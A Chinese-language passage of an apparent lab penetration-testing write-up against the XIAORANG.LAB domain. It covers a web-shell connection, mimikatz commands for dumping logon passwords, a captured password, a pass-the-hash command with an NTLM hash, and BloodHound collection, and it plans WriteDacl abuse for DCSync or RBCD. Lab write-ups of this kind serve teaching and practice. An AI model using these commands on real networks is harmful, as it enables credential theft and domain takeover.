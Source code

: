 ![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250217171947-3u74526.png?imageSlim)​

蚁剑连接

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250217172028-zqx5n50.png?imageSlim)​

修改下管理员密码，远程上去

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250217172145-ivauzix.png?imageSlim)​

rdp连过去

上传猕猴桃抓下密码

```bash
privilege::debug
sekurlsa::logonpasswords
```

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250217181646-24j55g5.png?imageSlim)​

拿到了chenglei的密码

```bash
* Username : chenglei
* Domain   : XIAORANG.LAB
* Password : Xt61f3LBhg1
```

抓到机器用户的NTLM哈希

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250217173043-d1s11z6.png?imageSlim)​

打pth拿到SYSTEM

```bash
sekurlsa::pth /user:WIN-HAUWOLAO$ /domain:XIAORANG.LAB /ntlm:e1fc593b8d8e0be2cc96407da1eba4a5
```

在kali上使用BloodHound搜集一下信息

账号和密码是之前读的pAss.txt

```bash
bloodhound-python -u zhangwen -p 'QT62f3gBhK1' -d xiaorang.lab -c all -ns 172.22.13.6 --zip --dns-tcp
```

分析一下chenglei的权限

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250217180035-e5ne2if.png?imageSlim)​

chenglei 属于 ACL ADMIN 组，ACL Admins 组对 WIN-DC 具有 WriteDacl 权限，那么可以直接写 DCSync / RBCD / Shadow Credentials

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250217180223-wrtuako.png?imageSlim)​

WriteDacl 写 RBCD
